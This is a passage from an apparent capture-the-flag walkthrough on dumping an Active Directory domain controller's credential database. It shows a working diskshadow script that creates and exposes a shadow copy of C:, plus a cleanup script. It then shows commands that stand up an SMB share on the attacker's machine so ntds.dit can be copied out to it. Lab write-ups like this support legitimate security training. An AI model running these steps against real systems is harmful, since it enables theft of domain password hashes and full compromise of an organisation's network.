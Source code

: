     Number of shadow copies listed: 1
    -> expose %df% z:
    -> %df% = {fe96248c-9468-4892-befc-a9ac2dda6a8e}
    The shadow copy was successfully exposed as z:\.
    ->



#### Success

In summary, to get this script working, I needed to

-   Make sure the input script file uses Windows line endings. If I
    write the script file on Kali, I'll need to use `unix2dos` on it
    before uploading.
-   Set the metadata path to something writable, or run from a directory
    I can write to or set the metadata path.
-   Some quick testing shows it is fine to run from outside `system32`
    despite what the blog post said.

The working script is:



    set context persistent nowriters
    set metadata c:\programdata\df.cab
    set verbose on
    add volume c: alias df
    create
    expose %df% z:



I wrote another to clean up after I'm done:



    set context persistent nowriters
    set metadata c:\programdata\df.cab
    set verbose on
    delete shadows volume df
    reset



### Grab ntds.dit

I'll start an SMB server locally on my host so that I can copy the
`ntds.dit` file directly there with
`smbserver.py s . -smb2support -username df -password df`. Now I can
auth to the share:



    *Evil-WinRM* PS C:\programdata> net use \\10.10.14.14\s /u:df df
    The command completed successfully.



Now, after running the script to expose the shadow copy, I'll copy
`ntds.dit` to the share:
